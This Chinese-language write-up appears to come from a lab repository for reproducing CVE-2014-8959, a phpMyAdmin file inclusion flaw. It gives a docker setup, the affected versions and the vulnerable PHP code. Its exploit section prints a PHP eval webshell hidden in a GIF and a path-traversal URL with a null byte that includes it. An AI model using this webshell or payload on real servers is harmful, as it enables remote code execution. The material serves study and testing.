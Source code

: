 # CVE-2014-8959

CVE-2014-8959是phpMyAdmin的一个任意文件包含漏洞。

## 环境重现

```sh
docker run -d -i --name cve-2014-8959 -p 80:80 xk0n/cve-2014-8959
```

## 影响版本

- 4.0.x     4.0.10.6以下
- 4.1.x     4.1.14.7以下
- 4.2.x     4.2.12以下

## 漏洞成因

`libraries/gis/pma_gis_factory.php`的 `$type_lower`变量未过滤，直接`include_once`导致的任意文件包含

```php
class PMA_GIS_Factory
{
    /**
     * Returns the singleton instance of geometric class of the given type.
     *
     * @param string $type type of the geometric object
     *
     * @return object the singleton instance of geometric class of the given type
     * @access public
     * @static
     */
    public static function factory($type)
    {
        include_once './libraries/gis/pma_gis_geometry.php';

        $type_lower = strtolower($type);
        if (! file_exists('./libraries/gis/pma_gis_' . $type_lower . '.php')) {
            return false;
        }
        if (include_once './libraries/gis/pma_gis_' . $type_lower . '.php') {
            //...
        }
    }
}
```

多个文件在调用这个类的factory函数时，也没有经过严格检查，就将用户输入传给了参数。如`gis_data_editor.php`在调用factory函数时，就可以被我们利用。

`gis_data_editor.php`的22行到63行如下：

```php
// Get data if any posted
$gis_data = array();
if (PMA_isValid($_REQUEST['gis_data'], 'array')) {
    $gis_data = $_REQUEST['gis_data'];
}

$gis_types = array(
    'POINT',
    'MULTIPOINT',
    'LINESTRING',
    'MULTILINESTRING',
    'POLYGON',
    'MULTIPOLYGON',
    'GEOMETRYCOLLECTION'
);

// Extract type from the initial call and make sure that it's a valid one.
// Extract from field's values if availbale, if not use the column type passed.
if (! isset($gis_data['gis_type'])) {
    if (isset($_REQUEST['type']) && $_REQUEST['type'] != '') {
        $gis_data['gis_type'] = strtoupper($_REQUEST['type']);
    }
    if (isset($_REQUEST['value']) && trim($_REQUEST['value']) != '') {
        $start = (substr($_REQUEST['value'], 0, 1) == "'") ? 1 : 0;
        $gis_data['gis_type'] = substr(
            $_REQUEST['value'], $start, strpos($_REQUEST['value'], "(") - $start
        );
    }
    if ((! isset($gis_data['gis_type']))
        || (! in_array($gis_data['gis_type'], $gis_types))
    ) {
        $gis_data['gis_type'] = $gis_types[0];
    }
}
$geom_type = $gis_data['gis_type'];

// Generate parameters from value passed.
$gis_obj = PMA_GIS_Factory::factory($geom_type);
```

从`REQUEST`中获取`gis_data`数组，`$gis_data['gis_type']`如果存在，则直接将其传给漏洞函数了。

## Exploit

这个漏洞利用有两个前提：

1. 能登陆phpMyAdmin，满足phpmyadmin的安全检查
2. 需要截断，需要满足下面的要求之一
   - PHP的版本需要小于 5.3.4(参考：[CVE-2006-7243](http://www.cvedetails.com/cve/CVE-2006-7243/))且gpc关闭
   - 利用长文件名截断

为满足上述条件，使用PHP 5.2.17 和 [phpmyadmin 4.0.3](https://files.phpmyadmin.net/phpMyAdmin/4.3.0/phpMyAdmin-4.3.0-all-languages.zip)版本进行测试。并在pma同级目录下有一个包含一句话木马的图片文件。

目录结构：

```sh
$ tree -L 1 -F
.
├── 1.gif
├── index.php
├── info.php
└── pma/
```

1.gif内容：

```php
<?php
@eval($_POST[a]);
?>
```

利用步骤：

1. 使用 pmatest/pmatest 作为用户名密码登陆phpMyAdmin
2. 从url中获取token
3. 访问`http://<IP>/pma/gis_data_editor.php?token=effa7667f41b469bde9c43d6e814f9a4&&gis_data[gis_type]=/../../../../1.gif%00`，同时post`a=phpinfo();`

![](./test.png)

## 参考

- http://bobao.360.cn/learning/detail/113.html
- https://www.phpmyadmin.net/security/PMASA-2014-14/